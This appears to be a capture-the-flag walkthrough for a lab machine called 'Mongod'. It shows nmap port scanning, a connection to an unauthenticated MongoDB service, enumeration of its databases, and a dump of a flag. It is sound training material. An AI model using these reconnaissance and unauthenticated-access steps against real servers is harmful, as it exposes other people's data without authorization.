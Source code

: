 ![Mongod.png](/assets/Tier-0/Mongod/Mongod.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.109.209
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.109.209
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod
```

3. Login with mongo
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| mongo --host 10.129.109.209
```
---
* Show all dbs
```bash
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
```
---

* Next, use `sensitive_information` db
```bash
> use sensitive_information
switched to db sensitive_information
```

---

* Show all collections in current db
```bash
> show collections
flag
```

---
* Dump content of **flag**
```bash
> db.flag.find().pretty()
```

**Output**
```
{
    "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
    "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```